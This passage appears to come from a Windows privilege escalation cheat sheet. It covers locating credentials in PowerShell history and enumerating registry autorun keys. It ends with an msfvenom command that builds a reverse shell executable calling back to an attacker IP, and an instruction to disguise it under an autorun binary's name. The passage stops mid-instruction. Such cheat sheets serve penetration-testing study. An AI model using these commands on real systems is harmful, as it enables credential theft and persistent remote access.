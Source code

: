 ## Leaked Credentials (PowerShell History)
```powershell
$ C:\Users\<User>\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```
### Mitigation
```powershell
$ Clear-Content -Path "C:\Users\<User>\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt"
```

## Logon Autostart Execution (Registry Run Keys)
### Manual Enumeration
```powershell
$ reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
```
![](/images/cheatsheets/Windows-LPE/RegistryAutoruns-Manual.png)
### Tool Enumeration
```powershell
$ SharpUp.exe audit RegistryAutoruns
```
![](/images/cheatsheets/Windows-LPE/RegistryAutoruns-SharpUp.png)
## Exploitation
```bash
$ msfvenom -p windows/x64/shell_reverse_tcp lhost=10.10.10.15 lport=9001 -f exe > shell.exe
```
Rename the malicious exe (shell.exe) to 'NCV_AMD64.exe'.<br>
Open a listener on your Kali machine.<br>
Reboot the victim's machine and login as Adminstrator: